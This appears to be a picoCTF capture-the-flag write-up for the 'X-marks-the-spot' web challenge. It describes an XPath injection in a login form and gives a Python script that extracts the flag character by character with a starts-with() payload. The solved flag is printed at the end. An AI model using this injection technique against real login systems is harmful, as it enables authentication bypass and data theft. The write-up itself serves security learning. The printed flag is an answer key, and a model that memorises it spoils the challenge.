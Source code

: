 # X-marks-the-spot
## Category
Web Exploitation
## Problem Description
Another login you have to bypass. Maybe you can find an injection that works? http://mercury.picoctf.net:20297/
## Approach
This is an XPATH injection. If an always true value is input in place of username a message pops up "You're on the right path.".<br>
Here we can use "starts-wth()" operator which returns true if the passed characters are at the beginning of a document.
```python
import requests
from string import *

charecters = ascii_lowercase + digits+"}_"
print(charecters)

seen_password = ["picoCTF{h0p3fully_u_t0ok_th3_r1ght_xp4"]
while True:

    for ch in charecters:
        print(f"trying {''.join(seen_password)+ch}")
        st = ''.join(seen_password)+ch
        data = {"name":"admin", "pass":f"' or //*[starts-with(text(),'{st}')] or '1'='"}
        r = requests.post("http://mercury.picoctf.net:20297/", data=data)

        content = r.text
        if "You&#39;re on the right path." in content:
            seen_password.append(ch)
            break
```
Running the above script a bunch of times returns the flag.
## Flag
picoCTF{h0p3fully_u_t0ok_th3_r1ght_xp4th_a313a6a7}
